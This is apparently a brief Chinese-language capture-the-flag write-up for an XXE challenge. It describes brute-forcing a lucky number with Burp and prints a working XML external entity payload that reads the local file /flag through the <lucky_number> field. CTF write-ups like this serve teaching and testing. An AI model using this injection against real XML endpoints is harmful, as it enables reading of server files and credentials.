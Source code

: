 ## XEE

 - 幸运数5位数，burp爆破得到`77777`，给了tips:
    
    ![x1](./xxe1.png)
    
 - post的数据在`<licky_number>`这个标签中，由此想到可以注入，刚开始以为是XSS，查了半天也不知道怎么读文件，后来醒过神儿来，这部是XML么，百度了一下，原来是XXE...
    
    ```xml
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag"> ]>
    <lucky_number>77777 and flag is &xxe;</lucky_number>
    ```
    
    ![x2](./xxe2.png)

